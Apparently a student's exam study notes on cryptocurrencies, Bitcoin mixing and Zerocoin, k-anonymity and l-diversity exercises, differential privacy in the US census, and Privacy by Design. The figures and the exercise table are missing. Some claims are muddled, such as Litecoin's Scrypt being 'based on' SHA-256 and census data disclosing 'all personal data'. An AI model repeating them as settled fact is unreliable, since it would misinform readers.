     - Open-source, P2P decentralized digital payment platform that allows for fast transfers of currency (e.g. US Dollar, Yen, Bitcoin, ...)
     - Ripple’s uses the cryptocurrency XRP which was built to become a bridge currency to allow financial institutions to settle cross-border payments a lot faster and cheaper than they can using the global payment networks that are in place today, which can be slow and involve multiple middlemen (i.e. banks)
     - XRP can handle more than 1,500 transactions per second
     - XRP is not based on a PoW or a PoS mechanism to validate transactions, but it makes use of its own specific consensus protocol
     - The total supply of XRP has been fully “pre-mined” by its inventors: 8 B XRP is held by Ripple, 39 B XRP has been distributed and 52 B XRP has been placed in escrow to create certainty of XRP supply at any given time
   - Stellar
     - Public permissionless blockchain
     - Similar to Ripple: Stellar is an open-source, distributed payments infrastructure, development is supported by the non-profit organization Stellar.org
     - Its goal is to connect people to low-cost financial services to fight poverty and develop individual potential
     - Can also be used to build smart contracts
     - It is not based on a PoW or PoS consensus mechanism, but has its own specific consensus protocol
     - Stellar is home to the cryptocurrency Lumen (XLM) that are used to pay for transactions on the Stellar network; they contribute to the ability to move money around the world and to conduct transactions between different currencies quickly and securely
     - Total supply of Stellar Lumens is “pre-mined”; held by Stellar.org who has been given the task to distribute Lumens for free in the following manner: 50% is to be given away to individuals (via a direct sign-up program), 25% is to be given away to partners (via a specific partnership program), 20% is given away to Bitcoin and XRP holders and 5% is reserved for Stellar.org’s operational expenses
   - Bitcoin Cash (BCH)
     - Open, permissionless blockchain
     - Hard fork of the Bitcoin blockchain: some Bitcoin developers wanted to raise the block size limit from 1MB to 8MB to reduce transaction fees and improve confirmation times, whilst others had different plans; because the community could not reach a consensus, the new cryptocurrency Bitcoin Cash was created
       - A direct result of the hard fork is that anyone who held Bitcoin at the time Bitcoin Cash was created also became owner of the same amount of Bitcoin Cash
   - Litecoin
     - Open, permissionless blockchain
     - LTC is an open-source decentralized P2P cryptocurrency
     - Scrypt PoW algorithm, which utilises Bitcoin’s and is based on what is known as the original SHA-256 PoW algorithm
     - Difference from Bitcoin
       - Litecoin offers a much faster transaction speed (Scrypt PoW algorithm): time needed to generate a block on the Bitcoin is about ten minutes, while in Litecoin is approximately 2.5 minutes
       - Total supply limit of Litecoin is with 84 million coins, much higher than the 21 million supply limit of Bitcoin
       - Public ledger
   - IOTA
     - Permissionless distributed ledger
     - Open-source eco-system where people and machines can transfer value (i.e. money) and/or data without any transaction fees in a trustless, permissionless, and decentralized environment
     - Focus on microtransactions
     - Total supply is 2779 B
     - Not based on blockchain technology
       - IOTA’s distributed ledger does not consist of transactions grouped into “blocks” and stored into sequential chains but of a stream of individual transactions entangled together
       - Instead of requiring miners to perform computational PoW and validate transaction blocks in exchange for newly “mined” coins, IOTA’s network participants create a consensus themselves by validaIng two previous transactions each time they wish to make a new transaction; this produces a directed acyclic graph (DAG)
3. Illustrate  Mixing in Bitcoin discussing its advantages and its limitations; discuss digital coins that allow anonimyty.
   - Mixing
     - Mixing services
       - Used to mix one's funds with other people's money, intending to confuse the trail back to the funds' original source
       - Promise not to keep records
       - Don’t ask for your identity
       - Essentially swaps a user’s coin (address) with other users’ coins (addresses)
       - Relatively small anonymity set (only comprise of those users who use the mixing service at that instant)
       - Principles
         - Use a series of mixes

           

         - Uniform transactions (all mix transactions must have the same value)
         - Client side must be automated
       - Problem: mixing services may themselves be operating with anonymity so if the mixing output fails to be delivered or access to funds is denied there is no recourse
     - Decentralized mixing
       - How it works: coinjoin
         - Normal transaction

           

         - One mixing round

           

       - Algorithm
         1. Find peers who want to mix
         2. Exchange input/output addresses 
         3. Construct transaction
         4. Send it around, collect signatures (before signing, each peer checks if his output is present)
         5. Broadcast the transaction
       - Problems
         - How to find peers
           - Problems: use an (un)trusted server -> the server learns the mapping and peers know your input-output mapping
           - Naive solution
             1. Exchange inputs
             2. Disconnect and reconnect over Tor 
             3. Exchange outputs
           - Better solution: special-purpose anonymous routing mechanism
         - Denial of service
           - Solutions
             - Proof of work
             - Proof of burn
             - Server kicks out malicious participant
             - Cryptographic “blame” protocol 
   - Zerocoin and Zerocash
     - Zerocoin: protocol-level mixing
       - Pros and cons
         - Advantage: cryptographic guarantee of mixing
         - Disadvantage: not currently compatible with Bitcoin
       - Extension of Basecoin (Basecoins can be converted into zerocoins and back)
       - A Zerocoin is a cryptographic proof that you owned a Basecoin and made it unspendable (verifiable)
         - Gives you the right to redeem a new Basecoin (somewhat like poker chips) 
       - How it works
         - Suppose you have 1$ on you and you want to anonymize it, in Bitcoin terms, meaning you want to change the owner, without the transaction being public
         - You have access to a secure board (with a trusted guardian)
         - Pin 1$ on the board and receive an anonymous ticket “Certificate : 1$ pinned” from the guardian
         - Give a friend your certificate: the guardian will unpin a 1$ bill from the board and give it to your friend 
       - Uses Bitcoin as underlying money (both are needed) 
       - Challenges
         - How to make sure each proof can only be “spent” once?
         - How to be sure that these proofs do not reveal the owner of the BTC?
       - Solution
         - Commitment
           - Generate a message S (public) and a random secret r
             1. I commit on message by publishing H(S, r)
             2. I can show my commitment on message S by revealing r
           - Equivalent to creating an envelope and successively unpacking it 
         - Zero-knowledge proofs: a way to prove a statement without revealing any other information
           - I know an input r that hashes to some hash in the following set: Hash(S1,r) or Hash(S2,r) or ... Hash(Sn,r)
       - How it works (technically)
         - Minting
           - Generate serial number S (eventually made public) and random secret r (never public, ensures unlinkability)
           - Compute H(S, r)
           - To put H(S, r) on block chain create Mint with 1 bitcoin as input
         - Spend
           - Reveal S (miners will verify S hasn’t been spent before)
           - Create zero-knowledge proof that: “I know a number r such that H(S, r) is one of the zerocoins in the block chain”
           - Pick arbitrary zerocoin in block chain & use as input to your new transacIon (remember we assume all zero coins have the same value of 1 Bitcoin)
       - Zerocoin is anonymous: since r is secret, no one can figure out which zerocoin corresponds to serial number S
       - Zerocoin is efficient
     - Zerocash: Zerocoin without Basecoin
       - Differences 
         - Different crypto for proofs (more efficient)
         - More general: proposal to run system without Basecoin
       - All transactions are zerocoins
       - Spliting and merging supported
       - Put transaction value inside the envelope
       - Ledger merely records existence of transactions
       - Problem
         - Random, secret inputs are required to generate public parameters
         - These secret inputs must then be securely destroyed
         - No one can know them (anyone who does can break the system)
4. Discuss extension of blockchain technologies beyond digital currency.
    - Example: smart contracts   
5. What is pseudoanonimity and discuss key features with reference to a practical example.  Explain the advantages and weakness of pseudoanonimity discussing how it should be used in practical situations. 
    - Pseudoanonymization: processing of personal data in such a manner that the personal data can no longer be attributed to a specific data subject without the use of additional information (kept separately)  
    - Example: when encrypting personal data the encryption key is the “additional information” which is “kept separately” and “subject to technical and organizational measures”
6. Given the following table

    

    - k-Anonymity
      - Determine the largest k such that the table is k-anonym. Explain which rows contradict the (k+1)-anonymity
        - 2, because of the zip code for example (10001, there are just two) or the age (there are just 2 21 y/o)
      - You may now use suppression on the columns. Assume that by removing one digit from Age or Zip, or suppressing the Sex attribute, you lose one ”value”. What is the minimal value loss required to achieve 5-anonymity?
        - We just remove the final digit of zip and age, then we will achieve 5-anonymity (so 2 values)
    - l-anonimity
      - What is the largest l such that the above mentioned dataset is distinct l-diverse?
        - 1-diversity; the two guys with 21 y/o have the same sensitive information and they compose an equivalence class
      - Assume suppressing the last digit of the Zip column and generalising Age to {[0- 22]; [23-90]}. For what value of l can distinct l-diversity now be guaranteed.
        - The maximum is 2-diversity because of the two 24 y/o people
7. The main limitation of K-anonimity and its extensions for guaranteeing privacy is the use of additional information. Provide at least two examples.
   - Attacks
     - Unsorted Matching Attack
       - Problem: records appear in the same order in the released table as in the original table
       - Solution: randomize order before releasing
     - Complementary Release Attack
       - Problem: different releases of the same private table can be linked together to compromise k-anonymity

         

     - Homogeneity attack

       

     - Background knowledge attack

       

     - Probabilistic inference attacks

       

       - 80% of probability HIV
     - Similarity attack

       

   - Mitigations
     - l-diversity: sensitive attributes must be “diverse” within each almost-identifier equivalence class

       

       - Limitations
         - Example: sensitive attribute is HIV+ (1%) or HIV- (99%)
           - Suppose there are 10000 records in total
           - To have distinct 2-diversity, there can be at most `10000*1% = 100` equivalence classes
       - Versions
         - Probabilistic: frequency of the most frequent value in an equivalence class is bounded by `1/l`
         - Entropy: entropy of the distribution of sensitive values in each equivalence class is at least `log(l)`
         - Recursive (c, l)
           - `r1 < c(rl+r(l+1)+...+rm)` where `ri` is the frequency of the `i`thmost frequent value
           - Most frequent value does not appear too frequently
     - t-closeness: distribution of sensitive attributes within each almost-identifier group should be “close” to their distribution in the entire original database

       

8. Discuss how differential privacy has been used in the US census. In particular discuss an example that motivates why publishing census data does not preserve privacy and discuss the kind of operation that are performed to achieve differential privacy
   - Census doesn't respect privacy because all personal data are disclosed
   - Solution: anonymization
     - Top-down approach
       - Meachanism
         1. Generate national histogram without geographic identifiers
         2. Allocate counts in histogram to each geography “top down”
             - National-level measurements - Ɛnat
             - State-level histograms - Ɛstate
             - County-level histograms - Ɛcounty
             - Tract-level histograms - Ɛtract
             - Block-group level histograms - Ɛblockgroup
             - Block-level histograms - Ɛblock
             - Ɛ=Ɛnat+Ɛstate+Ɛcounty+Ɛtract+Ɛblockgroup+Ɛblock

         

         

9. Privacy by Design (PbD) is an  important technical elements in the GDPR.  Present main ideas of  PbD, its adavantages and its limitations.
    - Privacy by design (PbD): promotes privacy throghout the whole engineering process
      - 7 fundamental principles
        - Proactive, not Reactive (plan in advance not wait for the problem)
        - Privacy as a Default Setting 
        - Privacy Embedded into Design
        - Full Functionality
        - End-to-End Security
        - Visibility and Transparency
        - Respect for User privacy (user friendly not cryptic)
      - Data minimization and de-identification
        - De-identification
          - De-identification techniques are intended to remove identifying information from a dataset while retaining some utility in the remaining data
          - De-identification can also be used prior to sharing or release of a dataset
          - Problems
            - The de-identified data can be re-identified
              - Disclosure of private facts affects the individuals whose data were re-identified
              - Damage to reputation affects the organization that performed the de-identification
            - There is no agreement regarding the meaning of re-identification risk
              - The term is taken to mean the percentage of de-identified records that can be re-identified (in this case risk can be directly measured by performing a re-identification attack)
              - Others consider it as the probability of record re-identification in the future (in this case the risk is impossible to quantify)
            - Organizations must consider employing a combination of several approaches
              - Removing almost-identifiers and other kinds of information that might be used to re-identify data subjects
              - Continuously surveying for data that could be linked to the de-identified information that they are sharing
              - Limit sharing with others
              - Limit the activities of data "users" (who uses the data)  
            - There are no widely accepted standards for testing the effectiveness of a de-identification process
          - Conclusion: need for standards and assessment techniques that can measurably address the breadth of data and risks
      - PbD criticisms
        - Vague
        - Evolutionary approach will come at the cost of privacy infringements because evolution implies also letting privacy invading products utilizable until they are proven unfit for privacy (business models are built around customer surveillance and data manipulation)
        - Does not focus on the role of the actual data   
